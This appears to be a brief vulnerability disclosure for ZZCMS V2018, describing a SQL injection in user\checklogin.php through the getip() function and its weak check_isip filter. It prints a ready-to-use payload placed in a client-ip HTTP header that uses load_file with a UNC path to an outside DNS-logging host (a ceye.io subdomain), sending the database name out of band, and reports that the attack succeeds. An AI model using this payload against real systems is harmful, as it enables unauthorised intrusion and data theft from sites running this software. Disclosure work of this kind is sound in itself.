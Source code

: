 ZZCMS V2018

SQL Injection

code:
user\checklogin.php



Follow up this function：getip()


check_isip is a filter function,Follow up:



This is just a simple filter. It has nothing to do with it.



so there is SQL injection here.


At the time of landing,In HTTP head add this：
client-ip: 122.122.122.122' and ((select load_file(concat('\\\\',(select database()),'.fvyr6w.ceye.io\\abc'))))#



You can see that you have successfully obtained the Database name.
